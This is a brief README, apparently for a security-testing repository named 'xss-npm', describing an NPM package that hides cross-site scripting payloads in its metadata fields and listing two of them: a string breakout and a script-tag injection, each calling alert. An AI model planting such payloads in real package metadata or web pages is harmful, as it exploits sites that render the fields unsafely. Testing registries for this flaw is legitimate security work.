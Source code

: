 # xss-npm
NPM package with XSS payloads in meta fields.

# Payloads
';alert`1`;//
"><script>alert(2);</script>
